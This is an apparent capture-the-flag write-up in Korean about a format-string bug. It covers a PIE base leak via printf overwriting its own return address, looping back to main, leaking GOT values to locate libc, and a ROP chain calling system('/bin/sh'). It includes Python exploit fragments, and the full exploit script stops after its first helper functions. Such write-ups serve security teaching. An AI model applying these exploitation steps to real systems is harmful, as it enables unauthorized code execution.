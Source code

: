 가장 먼저 시도해야 할 것은 pie leak이다. 스택을 조작해 ROP 등을 하기 위해서는 pie base 값을 알아야 한다.

stack offset을 알기 때문에 format string bug를 통해 printf가 실행되고 자신의 리턴 값을 바꾸어 dup2를 실행하도록 시도했다.

```python
want_to_return_1 = (0x0b98 + pie_crit * 0x100 - 0xc00 + 0x10000) & 0xffff
give_format_string( "%" + ("%d" % want_to_return_1) + "c%1$hn", base_ptr - 8 * 1)
for i in range(14):
    give_format_string("a",1)
```

printf의 리턴 주소는 어차피 for문 내부 (pie 주위)를 가리키고 있기 때문에, %1$hn을 사용하여 하위 2바이트만 바꿔주어 원하는 pie 주소로 점프 가능하게 했다.

pie_crit은 처음에 1바이트를 알려줄 때 pie의 밑에서 두번째 바이트를 가져왔다. 0xb98은 dup2(fd,1)을 실행하기 전의 offset이다.

이렇게 하면 fd가 0일 때 printf가 실행되고 dup2(0,1)이 실행되어 stdin으로 값이 들어오는 것을 확인할 수 있었다.

그러나, dup2로 한번 점프한 후에도 printf의 인자는 그대로이기 때문에 무한루프에 빠지게 되어 이후를 진행할 수 없었다.

이를 위해 다음과 같은 계획을 세웠다.

```
1. 첫 printf에서 return value를 조작해 main으로 점프한다. (main을 시작할때 rsp를 0x18 뺌)
2. 그럼 rsp + 0x18에 main위치가 저장되어 있고, 이제 다시 printf를 3번 해서 fd=2로 만든다.
   2-1. printf를 3번 하던 중에 rsp+0x18 (주어진 stack pointer를 통해 stack 주소를 계산할 수 있음) 의 하위 2바이트를 바꿔 dup2(fd,1)로 가게 바꾼다.
   2-2. 마지막 printf에서 rsp를 바꿔서 pop pop pop return의 주소로 바꾼다.
   2-3. 그러면 그 루프에서는 return address가 pop pop pop return의 주소가 되어 dup2(fd,1)이 실행되고 다시 printf 루프가 실행된다.
   2-4. 하지만 두번째 루프에서는 return address + 0x18의 주소가 바뀌기 때문에 무한루프에 빠지지 않는다.
3. 그럼 3번째 printf에서 dup2로 점프하지 않고 15번 printf가 진행되는데, 이때 pie_base leak을 하고 마지막 15번째 printf에서 다시 main으로 돌아간다.
```

이렇게 해서 pie_base 값을 얻고 다시 처음부터 시작할 수 있게 되었다.

이제 처음에 임의의 위치 1바이트를 알려주는 기능이 있고, 다시 처음으로 돌아올 수 있기 때문에

위의 방법을 반복해서 사용하여 원하는 모든 메모리의 값을 구했다. 익스플로잇 코드의 get_quad에 구현되어 있다.

이제 got_dup2, got_printf, got_read 의 값을 얻어 libc database에 검색해 libc_binsh 스트링의 주소와 libc_system의 주소를 얻고,

마지막으로 printf 15번을 할 때 pop_rdi_return, libc_binsh, libc_system을 순서대로 스택에 넣는다.

printf 한번을 할 때 인자 하나와 string 하나를 줄 수 있기 때문에 printf("%1234c%1$hn", address) 로 임의의 2바이트를 원하는 위치에 쓸 수 있다.

따라서 위의 rop gadget을 만들 때 4 * 3 = 12번의 printf를 수행하고

13번째 printf에서 자신의 리턴 주소를 retn;이 있는 주소로 바꿔 rop를 트리거하였다.

system("/bin/sh")가 실행된 후에도 fd 1이 /dev/null에 매핑되있으므로 들어가서 "sh 1<&2"를 한번 실행해준다.

다음은 exploit 코드이다. ( 매우 길고 문제 서버에 대해서만 동작하기 때문에 참고용으로만 써주시길.. )

```python
#!/usr/bin/python

import pwnbox
import struct
import sys

#p = pwnbox.pipe.ProcessPipe('./real')
p = pwnbox.pipe.SocketPipe('200.200.200.106', 44444)

def get_stack_pointer():
    p.read_until('Stack Pointer is ')
    ans = int(p.read_until('\n'), 16)
    return ans

def get_pie_crit(x):
    p.read_until('-->')
    p.write('%d\n' % x)
```